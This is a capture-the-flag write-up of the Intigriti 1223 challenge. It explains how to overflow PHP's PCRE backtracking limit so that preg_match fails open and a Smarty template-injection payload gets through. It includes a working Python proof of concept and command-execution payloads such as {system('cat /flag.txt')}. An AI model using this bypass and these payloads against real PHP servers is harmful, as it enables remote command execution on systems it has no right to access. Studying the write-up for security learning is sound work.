

# Intigriti Challenge 1223


# TL;DR

- The challenge consisted in obtaining RCE via SSTI on PHP's Smarty template engine by bypassing a regex by making it go into backtracking, exceeding the PHP's default `pcre.recursion_limit`, which causes segmentation fault. As `preg_match()` documentation states, the function returns `false` on failure, which will successfully bypassing the restrictions.

# 0. Description

>The solution...
>- Should retrieve the flag from the web server.
>- The flag format is INTIGRITI{.\*}.
>- Should NOT use another challenge on the intigriti.io domain.

# 1. Enumeration

## 1.1) Challenge scenario



[PISCIO]

<table>
<tr>
<th>
<p> <small>EXAMPLE TEXT</small> </p>
</th>
<th>
<p> <small>EXAMPLE TEXT</small></p>
</th>
</tr>
</table>


## 1.2) Technologies

One of the first things we look at are technologies, insidious CVEs and known bugs could give us an easy win.


Unfortunately, not this time, since Wappalyzer tell us that PHP version is 7.4.33, which is the latest for the [PHP 7.x branch](https://www.php.net/ChangeLog-7.php). However, it's still PHP 7 and not 8, something to keep in mind.

As a second note of interest, the author of the challenge was kind enough to also give us the version used by Smarty - a well-known template engine for PHP - which turns out to be 4.3.4; which once again, is the [latest release of the project](https://github.com/smarty-php/smarty/releases) without known security bugs.

## 1.3) Source code analysis

As mentioned previously, we are kindly provided with the source code of the challenge, so let's take a look:

```php
if(isset($_GET['source'])){
    highlight_file(__FILE__);
    die();
}

require('/var/www/vendor/smarty/smarty/libs/Smarty.class.php');
$smarty = new Smarty();
$smarty->setTemplateDir('/tmp/smarty/templates');
$smarty->setCompileDir('/tmp/smarty/templates_c');
$smarty->setCacheDir('/tmp/smarty/cache');
$smarty->setConfigDir('/tmp/smarty/configs');

$pattern = '/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/s';

if(!isset($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->display('index.tpl');
    exit();
}

// returns true if data is malicious
function check_data($data){
    global $pattern;
    return preg_match($pattern,$data);
}

if(check_data($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->assign('error', 'Malicious Inputs Detected');
    $smarty->display('index.tpl');
    exit();
}

$tmpfname = tempnam("/tmp/smarty/templates", "FOO");
$handle = fopen($tmpfname, "w");
fwrite($handle, $_POST['data']);
fclose($handle);
$just_file = end(explode('/',$tmpfname));
$smarty->display($just_file);
unlink($tmpfname);
```

---

What's happening here?
First of all, if we don't provide the `data` parameter to the POST request, it simply render the same page again.
```php
if(!isset($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->display('index.tpl');
    exit();
}
```

Then, our input `$_POST['data']` undergoes a check by a regular expression in the `check_data()` function that use the `preg_match()` function of the PHP PCRE library.
```php
function check_data($data){
    global $pattern;
    return preg_match($pattern,$data);
}
```

If the regex identifies a match, the server responds with "Malicious input detected" (aka: you won't get the flag).
```php
if(check_data($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->assign('error', 'Malicious Inputs Detected');
    $smarty->display('index.tpl');
    exit();
}
```

Otherwise, our input is written into a temporary file (with a randomly generated name)
```php
$tmpfname = tempnam("/tmp/smarty/templates", "FOO");
$handle = fopen($tmpfname, "w");
fwrite($handle, $_POST['data']);
fclose($handle);
```

and this file is passed to the Smarty `display()` function. This function essentially processes the template and outputs it.
```php
$just_file = end(explode('/',$tmpfname));
$smarty->display($just_file);
unlink($tmpfname);
```

Thus, our objective is to exploit SSTI, Server-Side Template Injection: a vulnerability that arises when an arbitrary user input with the native template syntax (like the example below), is fed into the template engine (Smarty in our case) and gets executed server-side.

```php
{system('ls')} // the ls command gets executed!
```

It's evident that if we manage to evade the regex and allow curly brackets to be included in the temporary file, we achieve Remote Command Execution (RCE).

---

Now let's take a look at the regex breakdown.

```regex
/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/s
```

1. Attribute Event Handlers:
        `(\b)(on\S+)(\s*)=`: This part is designed to identify potential event handlers in HTML attributes that start with "on" (e.g., onclick, onmouseover).
            `(\b)`: Word boundary to ensure that "on" is the beginning of a word.
            `(on\S+)`: Matches "on" followed by one or more non-whitespace characters (the actual event handler).
            `(\s*)`: Matches any whitespace characters following the event handler.
            `=`: Looks for the equal sign indicating the start of an attribute value.

2. Javascript String:
        `javascript`: This part simply looks for the string "javascript," which could indicate an attempt to execute JavaScript code.

3. HTML Tags:
        `<(|\/|[^\/>][^>]+|\/[^>][^>]+)>`: This section attempts to match HTML tags.
            `<`: Matches the opening bracket of an HTML tag.
            `(|\/|[^\/>][^>]+|\/[^>][^>]+)`: This part is more complex:
            `|`: Alternation, meaning it will match any of the options.
            `\/`: Matches a forward slash, possibly indicating a self-closing tag.
            `[^\/>][^>]+`: Matches characters that are not a forward slash or a closing bracket, ensuring that the tag has some content.
            `\/[^>][^>]+`: Matches a forward slash followed by characters, ensuring the tag has some content.
            `>`: Matches the closing bracket of an HTML tag.

4. Curly Braces Content:
        `({+.*}+)`: This part attempts to match content enclosed in curly braces. Breaking it down:
            `(+.*)+`: This part is more complex:
            `+`: Matches one or more opening curly braces.
            `.*`: Matches any characters (zero or more).
            `+`: Matches one or more closing curly braces.

# 2. Exploitation

I was searching far and wide for an attack vector, staring at the regex on [regex101](https://regex101.com/) trying to find some flaws where I could throw my `{ }` to get SSTI, until I realized that I probably shouldn't focus on the regex **ITSELF** but more on the context in which it was used.

Knowing the beautiful pearls of wisdom that PHP gift us, I started looking for the usual evasion techniques: Double Url Encoding, Type Juggling, Null Byte Injection (something that would have worked [back in 2008](https://bugs.php .net/bug.php?id=44366) lol), leaving `<?php` tag open and letting the browser fix it (taking inspiration from mutation XSS)...but nothing was letting me win.
Actually... for the last idea, it would be something that would work if the application saved our files with the `.php` extension and not just a random name as a result of `tempnam()`.
Indeed, look how the *same file with unclosed php tag inside* will be interpreted differently by the server with the extension as the only difference:


But that was not the case.
Anyway, I started looking in the various documentations, first the Smarty one, then the PHP documentation regarding the various functions used in the code. Usually here you can find warning about how specific functions should be implemented etc.
In fact, reading the [PHP documentation of `preg_match()`](https://www.php.net/manual/en/function.preg-match.php) I came across this one:


Ummmmhh, can this be useful to us somehow?
OFC! Read again the code where `preg_match()` is involved:

```php
// returns true if data is malicious
function check_data($data){
    global $pattern;
    return preg_match($pattern,$data);
}
```

Yea, the comments says it returns `true` if the pattern matches our input, but in reality, it returns `1` if it matches, `0` if it does not match, and ****it returns `false` if the regex fails***!
Then the return value is used as condition in a `if` statement without strict type checks! (classic PHP oversights) 

```php
if(check_data($_POST['data'])){
    [...] // we are bad people 
    exit();
}
```

Let's quickly test in the PHP console what happens when the return value of the `check_data()` function is `1`, `0` or `false`:


We may have found the path.

## 2.2) checks bypass with ReDoS that causes SIGSEGV in PCRE  

Now the question is:
>How can we cause the `preg_match()` to fail?

Luckily for me lately I had to deal with challenges where for example a ReDoS made a Race Condition possible, I have also recently started a project where I had to deal a lot with regexes and consequently I also had to fight with the regex backtracking nightmare.
So I know how to make a regex do bad things. And knowing what a "ReDoS" is, helped me to find what i was searching for.
However, in the context of this challenge I still didn't know what the conditions were for causing unexpected behaviors. I just knew I had somehow to blow things up.

So I thought that Google probably had something exotic to offer me.
Searching for "php preg_match ReDoS" or "php regex failure" you can find some interesting articles:
- [OWASP ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [The Explosive Quantifier Trap](https://www.rexegg.com/regex-explosive-quantifiers.html)
- [Regexploit: DoS-able Regular Expressions](https://blog.doyensec.com/2021/03/11/regexploit.html)
- [Bad Meets evil - PHP meets Regular Expressions](http://www.rafaybaloch.com/2017/06/bad-meets-evil-php-meets-regular.html)
- [PHP regular expression functions causing segmentation fault](https://jesperjarlskov.dk/php-regular-expression-functions-causing-segmentation-fault)

Everything lead to one path, specially the latest two blogs.
> In short the problem happens because the `preg_*` functions in PHP builds upon the [PCRE library](http://www.pcre.org/). In PCRE certain regular expressions are matched by using a lot of recursive calls, which uses up a lot of stack space. It is possible to set a limit on the amount of recursions allowed, but in PHP this limit [defaults to 100.000](http://php.net/manual/en/pcre.configuration.php#ini.pcre.recursion-limit) which is more than fits in the stack.

[This Stackoverflow thread](http://stackoverflow.com/questions/7620910/regexp-in-preg-match-function-returning-browser-error) was also linked in the post where it is talked more in depth about this issue.
Our task was now clear:
*Send an input that would make the regex do 100_000+ recursions, causing SIGSEGV, making the `preg_match()` function return `false` thus making the application think that our input is not malicious, throwing the surprise at the end of the payload something like  `{system(<verybadcommand>)}` to get SSTI --> RCE --> flag :)*.

I had two options to get there:
1) Send a shit load of shit and pray.
2) Reflect on which points the regex was backtracking the most and give calculated weight to those weak points.

Since I didn't want to destroy the challenge's infrastructure, I opted for the latter.

First of all, we need to match the word boundary (`\b`) , meaning that the matching group that comes after will be captured as a whole word.
Then we need to match the "on" and pass our Christmas gift bag of "X" characters to the quantifier explosive "\*", which will match all the "X" characters, moving the pointer forward by $n$ positions where $n$ is the number of our "X" characters.
This is the opposite of what would have happened with the "greedy" quantifier ( `*?`), which would have halved the number of iterations.
It seems complicated, so let's go and visualize it on [regex101](https://regex101.com/).


Ok, let's craft something evil now.
We need at least 100k iterations, so let's fill the payload with `'X'*100_000`
aaand it didn't worked.
Why?
Well, we're not doing 100k "recursions" in regex terms, but instead we're counting "backtracking steps", which as the [PHP documentation](https://www.php.net/manual/en/pcre.configuration.php#ini.pcre.recursion-limit) states it defaults to 1_000_000 (1M). 
To reach that, `'X'*500_001` will result in 1 million backtracking steps (500k forward and 500k backwards).

Let's try.
```
payload = f"X on{'X'*500_001} {{system('id')}}"
```


Profit!
## 2.3) PoC

```python
import requests

URL = 'https://challenge-1223.intigriti.io/challenge.php'
data={'data':f"X on{'X'*500_001} {{system('cat /flag.txt')}}"}
#print(data)
r = requests.post(URL, data=data)
print(r.text.split(' ')[-1])
```

> INTIGRITI{7h3_fl46_l457_71m3_w45_50_1r0n1c!}